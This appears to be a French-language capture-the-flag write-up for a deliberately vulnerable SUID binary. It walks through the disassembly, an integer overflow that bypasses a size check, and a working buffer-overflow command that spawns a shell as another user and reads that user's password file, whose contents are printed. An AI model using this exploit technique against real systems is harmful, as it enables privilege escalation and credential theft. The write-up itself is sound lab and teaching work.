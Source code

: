 ## Analyse
- `ls -la`
  ```
  [...]
    -rwsr-s---+ 1 bonus2 users  5043 Mar  6  2016 bonus1
  [...]
  ```
  - On a un binaire appartenant a bonus2 dans le home avec les droits SUID.

- `./bonus1`
  ```
  Segmentation fault (core dumped)
  ```
  - Le programme segfault sans arguments

- `./bonus1 test`
  ```
  ```
  - Le programme se termine sans rien afficher

- `gdb bonus1`
  - `set disassembly-flavor intel`
  - `info function`
    ```
    [...]
      0x08048424  main
    [...]
    ```
    - On ne trouve rien d'autre que la fonction main

  - `disas main`
    ```asm
    Dump of assembler code for function main:
       0x08048424 <+0>:     push   ebp
       0x08048425 <+1>:     mov    ebp,esp
       0x08048427 <+3>:     and    esp,0xfffffff0
       0x0804842a <+6>:     sub    esp,0x40
       0x0804842d <+9>:     mov    eax,DWORD PTR [ebp+0xc]
       0x08048430 <+12>:    add    eax,0x4
       0x08048433 <+15>:    mov    eax,DWORD PTR [eax]
       0x08048435 <+17>:    mov    DWORD PTR [esp],eax
       0x08048438 <+20>:    call   0x8048360 <atoi@plt>
       0x0804843d <+25>:    mov    DWORD PTR [esp+0x3c],eax
       0x08048441 <+29>:    cmp    DWORD PTR [esp+0x3c],0x9
       0x08048446 <+34>:    jle    0x804844f <main+43>
       0x08048448 <+36>:    mov    eax,0x1
       0x0804844d <+41>:    jmp    0x80484a3 <main+127>
       0x0804844f <+43>:    mov    eax,DWORD PTR [esp+0x3c]
       0x08048453 <+47>:    lea    ecx,[eax*4+0x0]
       0x0804845a <+54>:    mov    eax,DWORD PTR [ebp+0xc]
       0x0804845d <+57>:    add    eax,0x8
       0x08048460 <+60>:    mov    eax,DWORD PTR [eax]
       0x08048462 <+62>:    mov    edx,eax
       0x08048464 <+64>:    lea    eax,[esp+0x14]
       0x08048468 <+68>:    mov    DWORD PTR [esp+0x8],ecx
       0x0804846c <+72>:    mov    DWORD PTR [esp+0x4],edx
       0x08048470 <+76>:    mov    DWORD PTR [esp],eax
       0x08048473 <+79>:    call   0x8048320 <memcpy@plt>
       0x08048478 <+84>:    cmp    DWORD PTR [esp+0x3c],0x574f4c46
       0x08048480 <+92>:    jne    0x804849e <main+122>
       0x08048482 <+94>:    mov    DWORD PTR [esp+0x8],0x0
       0x0804848a <+102>:   mov    DWORD PTR [esp+0x4],0x8048580
       0x08048492 <+110>:   mov    DWORD PTR [esp],0x8048583
       0x08048499 <+117>:   call   0x8048350 <execl@plt>
       0x0804849e <+122>:   mov    eax,0x0
       0x080484a3 <+127>:   leave  
       0x080484a4 <+128>:   ret    
    End of assembler dump.
    ```

  - <+0> ... <+6>
    - Initialisation de la mémoire (libère 64 octets pour la stack), alignement de la stack<br/><br/>
  - <+9>...<+25>
    - Prépare les arguments pour l'appel de atoi
    - Stocke le pointeur de argv (ebp+0xc) dans eax
    - Ajoute 4 pour atteindre argv[1]
    - Transfert la valeur de argv[1] dans EAX
    - Transfert la valeur de argv[1] (EAX) dans ESP
    - Appel atoi avec argv[1] en argument
    - Stocke le retour dans esp+0x3c<br/><br/>
  - <+29>...<+34>
    - Compare le retour du atoi avec la valeur 9
    - Si la valeur est inferieur ou egale a 9 on jump a l'instruction <main+43><br/><br/>
  - <+36>...<+41>
    - Met la valeur 1 dans eax pour la préparation du return(1)
    - Jump à l'instruction <main+127><br/><br/>
  - <+43>...<+79>
    - Prepare les arguments pour l'appel de memcpy
    - Stocke le retour de atoi dans EAX
    - Multiplie le retour de atoi (EAX) par 4 et le stocke dans ECX
    - Stocke argv dans eax
    - Ajoute 8 a argv pour arriver sur argv[2]
    - Stocke la valeur argv[2] (EAX) dans EAX
    - Stocke argv[2] (EAX) dans EDX
    - Met la valeur d'un pointeur sur l'espace aloué au debut qui se situe a ESP+14.
      Qui fait que nous donnons un pointeur sur un char * d'une taille de 0x3c(retour de atoi)- 0x14 (adresse char*) = 40.
    - Stocke le retour d'atoi * 4 (ECX) en 3eme argument du memcpy
    - Stocke argv[2] (EDX) en 2eme argument du memcpy
    - Stocke le pointeur sur le char[40] en premier argument du memcpy
    - Appel memcpy(char[40], argv[2],  a*4)<br/><br/>
  - <+84>...<+92>
    - Compare le retour de atoi (ESP+0x3c) avec la valeur 1464814662
    - Si le retour du atoi n'est pas egale avec cette valeur jump a <main+122><br/><br/>
  - <+94>...<+117>
    - Prepare les arguments pour l'appel de execl
    - Stocke 0 en 3eme argument de execl qui est equivalent a NULL comme execl prends des char en argument
    - `x/10s 0x8048580`
      ```asm
      0x8048580:       "sh"
      0x8048583:       "/bin/sh"
      ```
    - Stocke "sh" en 2nd argument
    - Stocke "/bin/sh" en 1er argument
    - Appel execl("/bin/sh", "sh", NULL)<br/><br/>
  - <+122>...<+128>
    - Return 0
    - Réinitialisation de la mémoire, fin d'exécution<br/><br/>
## Exploit

Après analyse, nous comprenons que pour obtenir notre flag il faut donner en input un nombre dont la valeur doit être inférieure ou égale à 9. Plus loin, cette valeur doit être égale a 0x574f4c46 (1464814662).

Nous voyons aussi que le memcpy() n'est pas protegé en effet notre string b fait 40, et si notre argv[2] fait plus de 40 nous avons un SegFault. 

- `gdb bonus1`
  - `set disassembly-flavor intel`
  - `r -2 $(python -c 'print "A" * 44')`
    ```
    Program received signal SIGSEGV, Segmentation fault.
    0xb7f65ef5 in ?? () from /lib/i386-linux-gnu/libc.so.6
    ```
  - `info registers`
    ```
    (gdb) info registers
    eax            0xbfffff8a       -1073741942
    ecx            0xfffffddc       -548
    edx            0xbffffd80       -1073742464
    ebx            0xb7fd0ff4       -1208152076
    esp            0xbffffbc8       0xbffffbc8
    ebp            0xbffffc18       0xbffffc18
    esi            0x0      0
    edi            0x0      0
    eip            0xb7f65ef5       0xb7f65ef5
    eflags         0x210282 [ SF IF RF ID ]
    cs             0x73     115
    ss             0x7b     123
    ds             0x7b     123
    es             0x7b     123
    fs             0x0      0
    gs             0x33     51
    ```

b fait une taille de 40 et en reecrivant jusqu'a 44 nous réécrivons a.
Pour avoir notre shell notre a doit valoir 0x574f4c46 (1464814662), ca sera donc notre second argument:
```c
$(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')
```

Maintenant le souci que nous avons est que la taille copiée par notre memcpy est de maximum 9 * 4 = 36 mais de notre côté nous voulons copier une taille de 44.

Un nombre negatif multiplié par 4 donne toujours un nombre negatif, cependant nous sommes en presence d'integer et nous avons :

**INT_MIN**  = -2147483647 - 1
**INT_MAX** = 2147483647

La raison de cette difference est la présence d'un bit de signe et nous pouvons abuser de cette particularité pour avoir une valeur supérieure à int min ce qui va passer tous les bit a 1 dont le bit de signe: c'est un [integer overflow](https://fr.wikipedia.org/wiki/D%C3%A9passement_d%27entier). 

Nous utilisons donc [le code python suivant](https://stackoverflow.com/questions/47100105/forcing-integer-overflow-in-python) pour forcer le cast en int et trouver la valeur avec laquelle nous obtenons un integer overflow pour avoir la valeur 44.
```python
>>> print((-2147483637*4) % 2**32)
44
```

- `./bonus1 -2147483637 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')`
  ```
  ```
  - `whoami`
    ```
    bonus2
    ```
  - `cat /home/user/bonus2/.pass`
    ```
    579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
    ```
